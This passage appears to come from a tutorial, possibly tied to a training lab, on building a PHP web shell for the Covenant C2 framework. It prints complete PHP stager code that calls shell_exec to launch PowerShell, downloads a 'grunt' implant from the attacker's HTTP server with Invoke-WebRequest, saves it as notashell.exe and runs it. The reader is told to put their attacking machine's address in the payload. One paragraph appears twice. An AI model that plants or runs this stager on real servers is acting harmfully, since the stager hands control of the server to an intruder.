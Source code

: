 The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the  webserver. Of course, this will only work if you can execute privileges  on the system.

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

```
Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe
```

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the  webserver's root directory to identify where you can and cannot execute  the file, such as if AppLocker or other solutions are employed on the  server.

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.

```
.\notashell.exe` or `cmd /c .\notashell.exe
```

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.

```php
<?php
  function get_stager() {
    $init = "powershell.exe";
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  }
 function execute_stager() {
  $init = "powershell.exe";
    $payload = ".\notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
 }
  get_stager();
  execute_stager();
  die();
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, https://github.com/Cryilllic/PHP-PowerShell/tree/main.
